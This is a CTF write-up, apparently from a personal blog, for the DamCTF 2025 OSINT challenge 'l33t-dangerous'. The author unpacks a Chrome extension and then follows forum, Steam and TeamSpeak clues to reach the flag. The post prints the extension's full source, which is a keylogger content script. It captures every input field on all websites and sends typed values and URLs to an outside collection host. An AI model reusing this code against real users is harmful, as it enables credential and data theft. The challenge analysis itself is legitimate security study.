 ```yaml
---
title: "l33t-dangerous"
description: "I was digging through my dad’s old CDs and found this. He used to work IT for the school district. Apparently, a middle schooler installed it on a teacher’s PC and somehow got into the grading system with it. No idea how it worked, but maybe you can figure it out." 
pubDate: 2025-05-12
ctf: "DamCTF 2025"
category: "osint"
author: "sealldev"
section: "CTFs"
image: "images/25-damctf/icon.png"
---
```


## What are we working with?

This challenge we start with a `boom.crx`. With some research the `.crx` file extension corresponds for a Chrome Extension. There are [CRX Extractors](https://crxextractor.com/) online, uploading the file we get a `boom.zip` containing the source code.

## Foothold

Inside is a `content-script.js` and a `manifest.json`.

```json
{
  "manifest_version": 3,
  "name": "Vine Boom Keyboard",
  "version": "1.3.3.7",
  "description": "Add some fun to your typing experience!",
  "content_scripts": [
    {
      "js": [
        "content-script.js"
      ],
      "matches": [
        "http://*/*", "https://*/*"
      ],
      "run_at": "document_start"
    }
  ]
}
```

```js
let boom = new Audio("data:audio/wav;base64,<B64 CONTENT>");

window.fetch = async (...args) => {
    // this stupid extension is useless why wont it work anymore?????
    // TODO: find out who invented CORS

    // whatever let's just simulate it for now
    await new Promise(resolve => setTimeout(resolve, 2000));
    return {
        ok: false,
        status: 418,
        statusText: "I'm a teapot",
        json: async () => ({ success: true }),
        text: async () => "it worked great",
    };
};

const targetNode = document.documentElement

const config = {attributes: true, childList: true, subtree: true};

const callback = (mutationList, observer) => {
    for (const mutation of mutationList) {
        if (mutation.type === "childList" && mutation.addedNodes.length > 0) {
            mutation.addedNodes.forEach(node => {
                if (node.nodeName === "INPUT") {
                    node.addEventListener("input", (e) => {
                        boom.currentTime = 0;
                        boom.play();

                        fetch("https://mwaas.el1t3.fun/payload", {
                            method: "POST",
                            headers: {
                                "Content-Type": "application/json",
                            },
                            body: JSON.stringify({
                                value: e.target.value,
                                url: window.location.href,
                                ele: e.target.name,
                                user: "NAVI"
                            }),
                        });
                    });
                }
            });
        }
    }
};

// Create an observer instance linked to the callback function
const observer = new MutationObserver(callback);

// Start observing the target node for configured mutations
observer.observe(targetNode, config);
```

The initially interesting part is the URL `mwaas.el1t3.fun` which seems to be used to exfiltrate data (before CORS).

Visiting the domain has a sample page with a login:
![mwaas.png](images/25-damctf/mwaas.png)

Selecting 'Login' redirects to a SimpleSAMLphp login page:
![ssp.png](images/25-damctf/ssp.png)

If I replicate a sample request to the `/payload` endpoint we get the following response:
`Upload functionality has been disabled after the disappearance of CacheTheStamp3de`

This login page is under the 2nd level domain `el1t3.fun`: `https://el1t3.fun/simplesaml/module.php/core/loginuserpass?...`

Visiting the domain with no path is a phpBB forum (ah the early 2000s UI):
![forumpage.png](images/25-damctf/forumpage.png)

## Characters

Exploring the threads we can see there are a few users:
- `NAVI` (which we can see is the user in the Chrome extension)
- `CacheTheStamp3de` (presumably disappeared)
- `[myg0t] konata` (Outside of the CTF context, `myg0t` is seemingly a group that would join servers and blatantly cheat)
- `LOIC`
- `pootis`

From reading the threads they all seem to be cheaters in Counter-Strike 1.6 and play gun-game.

## Threads

There are a few interesting things from these threads:

`CacheTheStamp3de` seems to be setting up a CS server, in that is a webserver:
![configcs.png](images/25-damctf/configcs.png)

Visiting the URL we have directory listing!
![csstrike.png](images/25-damctf/csstrike.png)

The `maps/` folder is pretty uninteresting (just maps) but the parent folder has an interesting image `sfz_motd.jpg`:
![sfz_motd.png](images/25-damctf/sfz_motd.png)

There is an IP address for a TeamSpeak server! But we don't know the password, good to keep in mind though.

There is another thread from `NAVI` showing proof they don't cheat (which is absolute cinema):
![navicheating.png](images/25-damctf/navicheating.png)

The video isn't attached but is a very entertaining video of poor CS gameplay and the best of the best Linkin Park in WINAMP, bundled with Notepad typing for speech and HyperCam 2. Lol.

The interesting part is when the Console is opened, and we can see some Steam IDs:
![steamidsnavi.png](images/25-damctf/steamidsnavi.png)

## Steam

The two IDs link to Steam profiles for `NAVI` and `pootis` and can be converted to profile URLs with https://steamid.io:
- `NAVI`: `STEAM_0:0:936738840` -> https://steamcommunity.com/profiles/76561199833743408
- `pootis`: `STEAM_0:0:937385953` -> https://steamcommunity.com/profiles/76561199835037634


`NAVI`'s profile has a comment from [CacheTheStamp3de](https://steamcommunity.com/profiles/76561199834323082) but their profile is private.

`pootis` is friends with `[myg0t] konata` (https://steamcommunity.com/profiles/76561199834257966):
![konatasteam.png](images/25-damctf/konatasteam.png)

They are in a group which seems to line up with the acronym seen on the TeamSpeak server and in `NAVI`'s 'i'm not hacking' video: **Skid Force Zero**.

They are also friends with `LOIC`, but their profile is private.

The group has comments from the members on the forum! But we can find something particularly interesting from `CacheTheStamp3de`:
![tspass.png](images/25-damctf/tspass.png)

We can now connect to the TeamSpeak server!

## TeamSpeak

Inside the server we have no permissions, but we can see a description for the 'Gungame 24/7' channel!

![tsdesc.png](images/25-damctf/tsdesc.png)


Now here I got quite stuck, I couldn't figure out what to do. I looked at registering on the forum and spotted this:
![regophrase.png](images/25-damctf/regophrase.png)

That phrase we need is from TeamSpeak! We can now register an account!

## Forum Access

I register an account `sealldev` and we can now see a new 'Hacking' board!

![hackingboard.png](images/25-damctf/hackingboard.png)

The 'steal creds from noobs' thread has the flag!

![flag1.png](images/25-damctf/flag1.png)

Flag: `dam{we_wer3_the_skids_all_al0ng}`

## Further Reading & Memes

I incline you to read the part 2 to this challenge [l33t-benign](./25-damctf-l33t-benign) as it ties directly into this and is a great web challenge.

After the CTF there were some shenanigans on the TeamSpeak server...

Bad Apple was made using usernames, and it's beautiful...

<video controls>
  <source src="/badapple.mp4" type="video/mp4" />
</video>








